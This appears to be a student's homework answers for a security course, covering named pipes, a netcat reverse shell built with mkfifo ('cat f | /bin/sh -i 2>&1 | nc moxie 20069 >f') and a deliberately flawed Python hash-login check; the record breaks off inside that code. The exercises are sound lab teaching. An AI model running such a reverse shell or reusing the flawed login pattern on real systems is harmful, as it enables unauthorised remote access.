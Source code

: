 1. Open two windows in kali. In the first window, type
    ```bash
    $ mkfifo f
    $ exec < f
    ```
    In the 2nd window, type
    ```bash
    $ exec 3>f
    $ echo ls >&3
    ```
    a) Why doesn't the first window die now?
    b) Explain how to recover stdin on the first window without killing and restarting its shell.

    **Answer:**
    * `mkfifo f` creates a named pipe called `f`
    * `exec < f`, replaces the current shell process with the execution of commands coming out of the pipe `f`
    * `exec 3>f` creates a new file descriptor `3` redirecting to the pipe `f`
    * `echo ls >&3` pipes the text `ls` to the file descriptor 3 which gets piped to `f` and gets executed in the first window
    * The shell doesn't close this time because the pipe `f` is receiving from file descriptor `3` which is still open.

1. Explain how to use mkfifo to get a reverse shell with netcat when -e and -c are unavailable. You can google this if you like, but be sure and explain how it works

    **Answer:**
    * First, start a listener on moxie using `nc -nlvp 20069`
    * Create a named pipe in kali using `mkfifo f`
    * Execute the following command in Kali `cat f | /bin/sh -i 2>&1 | nc moxie 20069 >f`
    
    Breaking down the last command :

    * `cat f` outputs the contents of the pipe `f`
    * The output of `cat f` gets piped to `/bin/sh -i` which starts an interactive shell where the commands are executed
    * The prompt for the shell is printed in `stderr`. `2>&1` redirects `stderr` to `stdout` to get the prompt on the reverse shell.
    * The stdout data is then piped to the `nc` command which sends it over the network
    * The data received by `nc` is redirected to the pipe `f` and the loop continues.

1. Analyze the following python program. What is the flaw, and what inputs could you enter in order to make the program output "login successful"?
    ```python
    #!/usr/bin/python
    import hashlib

    login_db = {
            'john'   : 'f56f6c2009c63dac4328d45fe4865ccf',
            'alisha' : '09d412324fdb8f8673626ceefbb402d0',
            'chris'  : '9d9116194481d02a2e1dc8a8700f6af1',
            'jared'  : '2b00142f7481c7b056c4b410d28f33cf',
        }

    def check(cred):
        user    = cred.split('&')[0]
        pwdhash = cred.split('&')[1]
        return (user in login_db) and (login_db[user] == pwdhash)
